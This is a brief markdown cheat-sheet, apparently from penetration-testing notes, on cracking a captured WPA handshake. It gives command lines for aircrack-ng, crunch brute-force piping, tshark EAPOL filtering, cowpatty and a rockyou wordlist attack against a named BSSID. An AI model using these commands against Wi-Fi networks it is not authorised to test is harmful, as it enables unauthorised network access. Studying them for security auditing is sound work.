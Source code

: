 # WPA Cracking

Now check if the handshake is in the file.

### **aircrack-ng**

```
aircrack-ng psk-01.cap
```

### **Crunch**

Try all **{upperlowercases with all numbers}** with a lenght of 8 spaces/characters **:**

```
crunch 8 8 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890 | aircrack-ng -w - <Capture> -e <essid>
```

Try all posible **number** combinations:

```
crunch 8 8 1234567890 | aircrack-ng -w - <Capture> -e <essid>
```

### **tshark**

```
tshark -r psk-01.cap -n -Y eapol #Filter handshake messages #You should have the 4 messages.
```

### **cowpatty**

```
cowpatty -r psk-01.cap -s "ESSID" -f -
```

Now continue to crack:

```
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 64:20:9F:15:4F:D7 /tmp/psk*.cap
```


